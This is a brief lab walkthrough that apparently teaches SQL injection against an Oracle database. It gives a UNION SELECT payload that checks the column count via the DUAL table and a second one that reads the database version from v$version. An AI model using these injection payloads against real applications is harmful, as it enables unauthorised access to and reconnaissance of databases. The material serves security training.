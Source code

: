 Firstly, Determine the number of columns that are being returned by the query and which columns contain text data same as we done in previous labs.

To verify the query is returning two columns, and both of which contain text:
`' UNION SELECT 'a','a' FROM DUAL--`

_DUAL is a table automatically created by Oracle Database along with the data dictionary. DUAL is in the schema of the user SYS but is accessible by the name DUAL to all users._

Now, use Payload:
```sql
' UNION SELECT BANNER, NULL FROM v$version--
```
_The version information is stored in a table called v$version._
